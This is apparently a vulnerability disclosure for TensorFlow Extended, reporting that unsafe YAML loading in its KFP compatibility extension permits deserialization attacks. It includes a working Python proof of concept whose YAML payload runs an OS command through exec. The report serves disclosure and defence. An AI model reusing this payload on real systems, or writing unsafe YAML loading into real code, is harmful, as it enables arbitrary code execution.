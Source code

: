 # Description
TensorFlow Extended (TFX) is a Google-production-scale machine learning platform based on TensorFlow. It provides a configuration framework to express ML pipelines consisting of TFX components. 
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.sysem('pip3 install tfx')
from tfx.extensions.experimental.kfp_compatibility import kfp_container_component
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
kfp_container_component.load_kfp_yaml_container_component('config.yml')
```
* `pip3 install tfx`
* `python3 exploit.py`

# Impact
Arbitrary Code Execution
